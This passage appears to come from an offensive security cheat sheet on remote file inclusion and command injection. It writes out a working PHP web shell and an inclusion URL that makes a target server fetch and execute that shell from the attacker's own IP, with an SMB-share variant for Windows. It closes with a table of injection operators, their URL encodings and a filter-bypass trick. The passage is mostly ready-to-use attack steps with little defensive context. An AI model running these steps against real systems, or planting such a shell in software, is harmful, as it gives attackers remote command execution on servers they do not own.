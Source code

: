 First we need to launch a server here a web server.

2.
```console
echo "<?php system($_GET['cmd']); ?>" > shell.php
```

Then we create a classic web shell. You can also use pre-made web shell like [this one](https://github.com/inforkgodara/php-web-shell/blob/main/php-web-shell.php), for example.

3. ```http://SITE/index.php?SOMETHING=http://[OUR_IP]:8080/shell.php&cmd=id```

Then we need to specify our IP and port so that the web shell is executed. Here we have executed the "id" command.

If the server was on the ```windows machine``` we may have preferred a SMB share instead. We would have done the following steps :

1.
```console
smbserver.py -smb2support share $(pwd)	
```

Here we start an SMB server.

2. ```http://SITE/index.php?SOMETHING=\\[OUR_IP]\share\shell.php&cmd=id```


## Bypass Techniques 

We may have to bypass several protections. We can replace some characters with their URL encoded string, with some variable... Here is an array containing several examples.

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
|--------------- | --------------- | --------------- | --------------- |
| Semicolon | ; | %3b | Both |
| Space | + | %20 | Both |  
| Space | ${IFS} | %20 | Both |
| New Line | \n | %0a | Both |
| Tab | \t | %09 | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | \| | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | \|\| | %7c%7c | Second (only if first fails) |
| Sub-Shell | \`\` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |


Instead of using spaces or tabs you can use ```Brace Expansion```. For example instead of using ```ls -la``` you can use ```{ls,-la}```.
